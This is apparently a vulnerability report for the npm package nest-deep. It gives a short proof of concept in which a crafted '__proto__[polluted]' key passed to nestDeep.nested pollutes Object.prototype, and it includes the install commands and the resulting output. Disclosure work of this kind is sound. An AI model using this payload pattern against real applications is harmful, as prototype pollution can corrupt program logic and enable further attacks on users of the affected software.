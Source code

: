 # Description

`nest-deep` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var nestDeep = require("nest-deep")
console.log("Before : " + {}.polluted);
nestDeep.nested({"__proto__[polluted]": "Yes! Its Polluted"})
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i nest-deep # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
